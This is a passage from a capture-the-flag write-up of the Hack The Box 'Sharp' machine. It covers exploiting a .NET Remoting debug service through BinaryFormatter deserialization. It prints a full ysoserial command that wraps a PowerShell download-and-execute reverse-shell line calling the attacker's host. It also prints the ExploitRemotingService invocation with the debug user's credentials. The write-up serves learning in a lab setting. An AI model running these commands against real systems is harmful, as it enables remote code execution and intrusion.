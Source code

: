 ## Exploit local .NET debug service

As `debug` profile contains nothing but some useless folders (`IPC$`, `dev` and similarities for lars), we have to figure out how to connect to the endpoint on port 8888. Back to the `notes.txt`, I thought there is something to do with the .NET service and came across these two repos. You can take a look yourselves.

https://github.com/tyranid/ExploitRemotingService

> A tool to exploit .NET Remoting Services vulnerable to CVE-2014-1806 or CVE-2014-4149. It only works on Windows although some aspects *might* work in Mono on *nix.

https://github.com/frohoff/ysoserial (basically our payload wrapper)

> **ysoserial** is a collection of utilities and property-oriented programming "gadget chains" discovered in common java libraries that can, under the right conditions, exploit Java applications performing **unsafe deserialization** of objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes this data, the chain will automatically be invoked and cause the command to be executed on the application host

We will use *ysoserial* to wrap our reverse-tcp PowerShell one-liner[^1] and call *ExploitRemotingService.exe* to pipe our wrapped payload into the mentioned vulnerable endpoint.

### Payload crafting and Network configuration

#### Useful PoC[^2] repositories

Because ExploitRemotingService doesn't provide us any release versions so we have to download and build the project manually with Visual Studio on our Windows VM[^3].

Additionally, I have to install [NDesk Options](http://www.ndesk.org/Options) library in order to successfully compile the solution. 

![](https://github.com/legiahuyy/image-host/raw/main/2021-5-14-HTB-Sharp/2021-05-15_11-27.png)

`ysoserial` has their portable version so we can simply download, unzip and use it.

Here is a brief look of `Server.exe` source code decompiled by dnSpy. The server is running on port `8888` with BinaryFormatter sink implemented. You can read about the details [here](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.remoting.channels.binaryserverformattersink?view=netframework-4.8); simply put, we just need `ysoserial` to wrap our payload in BinaryFormatter mode.

![](https://github.com/legiahuyy/image-host/raw/main/2021-5-14-HTB-Sharp/2021-05-15_11-41.png)

Below is our crafting steps with `ysoserial` and `ExploitRemotingService`:

```powershell
### ysoserial.exe
C:\Users\User\Desktop\ysoserial-1.34\Release>ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o base64 -c "powershell IEX(new-object net.webclient).downloadString('http://10.10.16.3/reverse.ps1')"

# Breakdown
-f Formatter as BinaryFormatter
-g TypeConfuseDelegate gadget
-o Base64 output
-c Create a reverse connection back to our IP using Powershell one-liner called reverse.ps1
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.3/reverse.ps1')


### ExploitRemotingService.exe
C:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Release>ExploitRemotingService.exe -s --user=debug --pass="SharpApplicationDebugUserPassword123!" tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw <wrapped payload>
```


[^1]: See more about PowerShell one-liner: https://gist.github.com/m8r0wn/b6654989035af20a1cb777b61fbc29bf
[^2]: Proof of Concept
[^3]: Virtual Machine